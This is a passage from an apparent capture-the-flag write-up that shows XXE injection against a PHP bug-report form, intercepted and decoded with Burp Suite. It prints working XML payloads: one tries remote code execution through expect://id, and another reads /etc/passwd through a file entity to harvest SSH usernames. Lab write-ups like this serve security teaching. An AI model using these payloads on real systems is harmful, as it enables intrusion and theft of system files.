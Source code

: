 We can see that our payload is in the `data` field of the request body and is encoded.<br>
By highlighting it with our cursor, `Burp Suite` will try to decode it on the right panel.<br><br>
Once decoded, we can see the exact payload that will be interpreted by the XML parser on the server:

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
	<bugreport>
		<title>t</title>
		<cwe>t</cwe>
		<cvss>t</cvss>
		<reward>34</reward>
	</bugreport>
```

From there, I decided to manipulate the payload in order to do some XXE injection on it before sending it to the server.<br>

The first thing I tried was to check if the **PHP** `expect` module was enabled, if it was the case, <br>
an attacker could easily do RCE (Remote Code Execution) on the Web server.<br>

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo
  [<!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>
	<bugreport>
		<title>&xxe;</title>
		<cwe>t</cwe>
		<cvss>t</cvss>
		<reward>34</reward>
	</bugreport>
```

But it seemed that the module wasn't enabled, that is a good thing for the web server in fact.<br>
After that, I decided to test with the `file` module if we could exfiltrate some data from the server with the following payload :<br>

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [
   <!ENTITY xxe SYSTEM "file://etc/passwd" >]>
	<bugreport>
		<title>&xxe;</title>
		<cwe>t</cwe>
		<cvss>t</cvss>
		<reward>34</reward>
	</bugreport>
```

And as you can see in the screenshot under, we have successfully exfiltrated the `/etc/passwd` file from the server,<br>
giving us some possible username to use to login through the SSH server. <br><br>

